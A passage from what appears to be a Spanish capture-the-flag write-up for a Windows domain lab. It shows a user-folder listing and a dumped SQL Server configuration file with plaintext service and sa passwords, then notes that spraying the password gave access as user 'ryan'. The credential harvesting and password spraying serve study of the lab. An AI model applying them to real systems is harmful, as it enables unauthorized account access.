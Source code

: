 ```
|   \---Videos
+---ryan
\---sql_svc
    +---Desktop
    +---Documents
    +---Downloads
    +---Favorites
    +---Links
    +---Music
    +---Pictures
    +---Saved Games
    \---Videos
```

En `C:\SQL2019\ExpressAdv_ENU` el archivo `sql-Configuration.INI` contiene una contraseña:

```
C:\SQL2019\ExpressAdv_ENU>type sql-Configuration.INI
type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

## Shell como ryan

ejectuto un spray con la nueva contraseña y es valida para el usuario ryan:
